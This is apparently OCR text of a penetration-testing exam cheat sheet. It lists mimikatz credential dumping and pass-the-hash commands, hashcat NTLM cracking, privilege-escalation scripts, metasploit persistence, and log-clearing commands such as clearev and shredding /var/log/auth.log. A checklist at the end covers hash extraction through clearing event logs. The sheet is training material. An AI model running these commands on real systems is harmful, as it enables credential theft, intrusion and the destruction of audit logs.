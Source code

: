 ```
mimikatz # privilege::debug
```

```
mimikatz # sekurlsa::pth /user:Admin /domain:TEST /ntlm:NTLM_HASH
```

```
./LinEnum.sh -t -r report.html`
```

### Clearing Tracks

Windows Event Log Manipulation

```
meterpreter > clearev
```

```
meterpreter > run event_manager -i
```

Linux Log Cleaning

```
shred -zu /var/log/auth.log
```

Linux Log Cleaning

```
shred -zu /var/log/auth.log
```

### Exam-Critical Reference Table


| Technique         | Tool       | Command Example            | Key Flags           |
| ----------------- | ---------- | -------------------------- | ------------------- |
| Hash Extraction   | mimikatz   | `sekurlsa::logonpasswords` | Requires admin      |
| Password Cracking | hashcat    | `hashcat -m 1000` for NTLM | `--force` for GPU   |
| Privilege Escal.  | linpeas.sh | `./linpeas.sh`             | Look for yellow/red |
| Persistence       | metasploit | `run persistence -X`       | `-i` for interval   |

### Practical Exam Checklist

1. Extract password hashes
2. Crack at least one admin hash
3. Escalate privileges
4. Establish persistence
5. Clear event logs

### Pro Tips:
